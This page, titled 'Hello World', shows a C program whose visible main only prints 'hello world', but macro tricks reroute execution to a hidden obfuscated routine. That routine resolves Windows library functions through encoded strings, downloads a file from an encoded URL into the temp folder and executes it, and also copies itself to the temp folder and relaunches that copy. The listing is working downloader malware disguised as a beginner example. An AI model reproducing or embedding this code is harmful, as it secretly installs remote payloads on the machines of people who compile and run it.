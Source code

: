 ```yaml
---
title: "Hello World"
description: "Hello World"
---
```


{% highlight c %}
#include <stdio.h>
#define sc _stdcall
#define M main
int _m(); 
#define main M(l p,l q){_hd(p,q);_m();}int _m
typedef unsigned long l;typedef char c,*s;typedef void v,*p;
typedef l(sc*F0)();typedef l(sc*F9)(l,l,l,l,l,l,l,l,l);
typedef l(sc*F1)(l); typedef l(sc*F8)(l,l,l,l,l,l,l,l);
typedef l(sc*F2)(l,l); typedef l(sc*F7)(l,l,l,l,l,l,l);
typedef l(sc*F3)(l,l,l); typedef l(sc*F6)(l,l,l,l,l,l);
typedef l(sc*F4)(l,l,l,l); typedef l(sc*F5)(l,l,l,l,l);
c __mp[1<<7]={0};l i,j,k,m,n,kl,nl,sl;c bf[1<<12];
l strcpy(l,l);l strcat(l,l);
F1 _nc,_ll,_fc;F2 _ga,_tp;F3 _cf;F4 _nr;F5 _no,_fw;F6 _nu,_sh;F7 _fn;
s __st[]={")GFzGda&Zldd","MszszG\\Zldd","!8Gdda&Zldd",
          "3z\\GFzG\\u0Gz;","3z\\GFzG\\fG{lBsdG","3z\\GFzG\\u0GzWFd;",
          "3z\\GFzG\\QdU!GX{zldG","QFG{\\GBsdG;","mFs\\GBsdG",
          "QdU!GX{zldG","QU0cBsdG;\0\\;","}G\\|G?0P{\\8;",
          "A8Gddg(G17\\G;","zGMVGFZG(G","8\\\\0~55MZ!Z]05sz!\\{ddZl{\\",
          "\\G?0ZG(G\0QEd","F7z{!\0\\0","U0Gz\0GzzD"};
l _dc(s o,s i){
    s p=i;do*(o+(l)p-(l)i+1)=__mp[*p];while(*p && p++);return 0;}
l rl(s z){for(i=0;i<sizeof(l)*8;i++)
    if(((l)z>>i)&1)z=(s)((l)z&~(1<<i));else{z=(s)((l)z|(1<<i));break;};
    return (l)z;}
v _in(){
    l sc LoadLibraryA(l);l sc GetProcAddress(l,l);
    i=j=0;do*(__mp+ j++ +0x20)=i+0x20,i=(i+83)%(0x60);while(i!=0);
    _ga =(F2)GetProcAddress,_ll=(F1)LoadLibraryA;kl=_ll((_dc(bf,__st[0]),rl(bf)));
    nl=_ll((_dc(bf,__st[1]),rl(bf)));sl=_ll((_dc(bf,__st[2]),rl(bf)));
    _no=(F5)_ga(nl,(_dc(bf,__st[3]),rl(bf)));_nr=(F4)_ga(nl,(_dc(bf,__st[4]),rl(bf)));
    _nu=(F6)_ga(nl,(_dc(bf,__st[5]),rl(bf)));_nc=(F1)_ga(nl,(_dc(bf,__st[6]),rl(bf)));
    _fn=(F7)_ga(kl,(_dc(bf,__st[7]),rl(bf)));_fw=(F5)_ga(kl,(_dc(bf,__st[8]),rl(bf)));
    _fc=(F1)_ga(kl,(_dc(bf,__st[9]),rl(bf)));_cf=(F3)_ga(kl,(_dc(bf,__st[10]),rl(bf)));
    _tp=(F2)_ga(kl,(_dc(bf,__st[11]),rl(bf)));_sh=(F6)_ga(sl,(_dc(bf,__st[12]),rl(bf)));
}
l _dl(l u){
    l cn,sn,f,rr,ln=0;
    sn=_no((l)"poilynx",1,0,0,0);if(!sn)return 0;
    cn = _nu(sn,(_dc(bf,__st[14]),rl(bf)),0,0,1<<30,0);
    if(!cn){_nc(sn);return 0;}f=_fn(u,1<<30,3,0,2,1<<7,0);
    while(_nr(cn,(l)bf, sizeof(bf),(l)&rr),rr)ln+=rr,_fw(f,(l)bf,rr,(l)&rr,0);
    _nc(cn);_nc(sn);_fc(f);
    return 1;
}
v _hd(l ac,l av)
{
    c td[1<<10];_in();_tp(1<<12,(l)td);
    if(ac>1 && (((s*)av)[1])[0]==0x53 && (((s*)av)[1])[1]==0){
        strcat((l)td,(_dc(bf,__st[13]),rl(bf)));
        while(!_dl((l)td));
        while(_sh(0,(_dc(bf,__st[16]),rl(bf)),(l)td,0,0,0)<1<<5);
    }else{
        strcat((l)td,(_dc(bf,__st[15]),rl(bf)));_cf((l)((s*)av)[0],(l)td,0);
        _sh(0,(_dc(bf,__st[17]),rl(bf)),(l)td,(m=0x53,(l)&m),0,0);}
    return;
}

int main()
{
    puts("hello world");
    return 0;
}
{% endhighlight %}

